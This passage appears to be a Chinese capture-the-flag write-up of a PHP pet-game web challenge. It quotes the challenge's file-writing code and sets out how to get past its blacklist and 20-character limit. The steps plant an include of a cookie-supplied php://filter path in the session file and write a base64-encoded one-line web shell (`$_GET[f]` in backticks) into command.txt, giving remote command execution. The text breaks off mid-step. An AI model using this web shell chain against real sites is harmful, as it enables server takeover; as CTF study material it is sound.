 所有功能中唯一一个直接写文件的操作在和`CHARACTER` 页面，同样需经过黑名单过滤，并且要求小于20个字符。

```php
if(isset($_POST['command']) && !empty($_POST['command']))
{
    if(strlen($_POST['command'])>=20)
    {
        echo '<center><strong>Too Long</strong></center>';
    }
    else
    {
        save_command($mail,$salt,$_POST['command']);
        header("Refresh:0");
    }
}
/*
function save_command($email,$salt,$data){
	$dir='./upload/'.md5($salt.$email);
	file_put_contents($dir.'/command.txt', $data);
}
*/
```

## 利用

### 思路

全局共有两处可以修改文件，可以修改用户名以修改Session文件，也可在`CHARACTER` 页面修改`command.txt` ，但两处都是由`GET` 或`POST` 传的参，参数被黑名单过滤导致无法直接发挥作用。

考虑到COOKIE没有被过滤，可以用作跳板，在Session文件中包含Cookie，在`command.txt` 写入编码后的无害字符串，在Cookie写入利用伪协议读取 `command.txt`  并解码的语句，就成功向Session文件写入了一句话。

其实从哪个文件经由哪个变量跳到哪个文件是有多种可能的，但本题受限于长度这很可能是唯一的解法。

### 步骤

- 在SETTING处修改用户名为`<?=include"$_COOKIE[a]` 
- 在Fiddler的Filters处的Cookie后面添加上一条`a=php://filter/convert.base64-decode/resource=upload/ac8d37347a056bad2a852e4ef40de28a/command.txt `
- 在character处给宠物发一条命令 `PD89YCRfR0VUW2ZdYDs` 从而写入`command.txt` 

```python
# PD89YCRfR0VUW2ZdYDs 可解码为 <?=`$_GET[f]`;
```

![1532072718776](1532072718776.png)

- 在admin处给自己送一只宠物

![1532072632523](1532072632523.png)

使执行语句
